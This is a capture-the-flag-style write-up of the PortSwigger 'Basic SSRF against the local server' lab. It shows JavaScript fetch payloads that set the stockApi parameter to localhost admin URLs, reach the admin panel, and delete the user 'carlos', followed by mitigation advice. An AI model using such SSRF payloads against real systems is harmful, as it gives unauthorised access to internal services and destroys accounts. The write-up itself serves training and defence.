




# PortSwigger Lab: Basic SSRF against the local server

## Lab Description
- **Platform:** PortSwigger Web Security Academy
- **Difficulty:** Apprentice
- **Objective:** Change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

## Vulnerability Analysis
The application's stock check functionality (`/product/stock`) accepts a URL via the `stockApi` parameter and fetches data from it. The server processes this request without validating the destination.

Because the server has access to its own loopback interface (`localhost`), an attacker can change the `stockApi` parameter to point to internal services, such as the admin panel, which are not accessible from the public internet.

## Exploitation Steps
1. Identified the vulnerable endpoint and parameter by inspecting the stock check form (parameter `stockApi`).
2. Opened the browser developer console and used the `fetch` API to send a POST request to `/product/stock`, injecting the local admin URL:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=http://localhost/admin'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
3. The server fetched the admin panel and returned its HTML code to the console. This confirmed the SSRF vulnerability and revealed the target deletion link for the user `carlos`.
4. Modified the payload to execute the deletion request via the local admin interface:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=http://localhost/admin/delete?username=carlos'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
5. The server executed the request. Although the internal admin panel responded with a `401 Unauthorized` (as the admin session was terminated after the action), the user `carlos` was successfully deleted, and the lab was solved.

## Evidence

### Accessing Admin Panel (Console Output)


### Finding Target Link


### Delete Request Execution


### Lab Solved


## Mitigation
To prevent SSRF, the application must validate the user-supplied URL.
1. **Allowlist:** Only allow requests to a specific, trusted stock API domain.
2. **Block Local IPs:** Ensure the server cannot make requests to `localhost`, `127.0.0.1`, or internal IP ranges.